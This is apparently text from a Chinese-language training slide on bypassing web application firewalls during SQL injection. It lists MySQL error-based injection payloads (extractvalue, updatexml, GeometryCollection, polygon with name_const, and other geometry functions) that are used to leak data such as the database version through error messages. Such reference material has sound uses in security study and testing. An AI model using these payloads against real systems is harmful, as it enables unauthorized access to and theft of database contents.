

# 补充知识_sql注入WAF绕过_12
参考链接：太多太多，总之感谢各位大佬的文章
5. 利用error-based进行sql注入
extractvalue(1, concat(0x5c,md5(3)));
updatexml(1, concat(0x5d,md5(3)),1);
GeometryCollection((select*from(select*from(select@@version)f)x))
polygon((select*from(select name_const(version(),1))x))
linestring()
multipoint()
multilinestring()
multipolygon()